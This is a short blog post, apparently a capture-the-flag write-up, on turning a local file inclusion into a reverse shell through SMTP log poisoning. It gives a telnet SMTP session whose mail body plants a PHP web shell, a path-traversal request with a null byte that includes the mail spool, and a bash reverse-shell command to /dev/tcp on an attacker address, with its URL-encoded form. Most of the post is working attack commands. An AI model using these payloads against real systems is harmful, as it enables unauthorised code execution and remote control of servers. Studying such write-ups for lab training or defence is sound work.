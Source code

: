```yaml
---
layout: post
title:  "Using LFI and SMTP to Get a Reverse Shell"
date:   2020-02-12 08:12:24 +0530
categories: redteam ctf
---
```


Local file inclusion or LFI can be used in many ways to execute remote commands and get a reverse shell. Some of them are injecting commands through 
apache access log or injecting commands through error logs. This article is little bit different than those techniques
we are going to send the payload through SMTP(mail) and then we are going to execute remote commands.

This image shows the lfi that I have found,

![LFI by burpsuite](https://raw.githubusercontent.com/janithmalinga/janithmalinga.github.io/master/_images/_fli-smtp-shell/lfi-smtp-1.png)

After finding the LFI, next step step is to write the system command on a file which we know the path, In this tutorial I'm going to write 
the system command that we need to execute in the mail folder using smtp protocol. Here are the commands I used to send a mail including the payload 
that we need to execute.

## Send the mail with payload in it

first connect to the smtp port using telnet,
```
telnet 10.10.10.7 25
```
Sending the email with embeded payload in the body,
```
EHLO test.com

VRFY asterisk@localhost
mail from: test.com
rcpt to: asterisk@localhost
data
Subject: This is exploit
<?php echo system($_REQUEST['cmd']); ?>
.
quit
```
now go to burpsuite and access the file "../../../../../../../..//var/mail/asterisk%00"

![exploit saved in the mail](https://raw.githubusercontent.com/janithmalinga/janithmalinga.github.io/master/_images/_fli-smtp-shell/lfi-smtp-2.png)

Yes we successfully exploited the whoami command n the system.

## Getting the reverse shell

For this task I'm using bash reverse shell on linux. Here is the command,
```
bash -i>& /dev/tcp/10.10.14.3/1337 0>&1
```

Then url encode it,
```
bash+-i>%26+/dev/tcp/10.10.14.3/1337+0>%261
```
using a netcat listner we can catch the reverse shell

![Got the reverse shell](https://raw.githubusercontent.com/janithmalinga/janithmalinga.github.io/master/_images/_fli-smtp-shell/lfi-smtp-3.png)


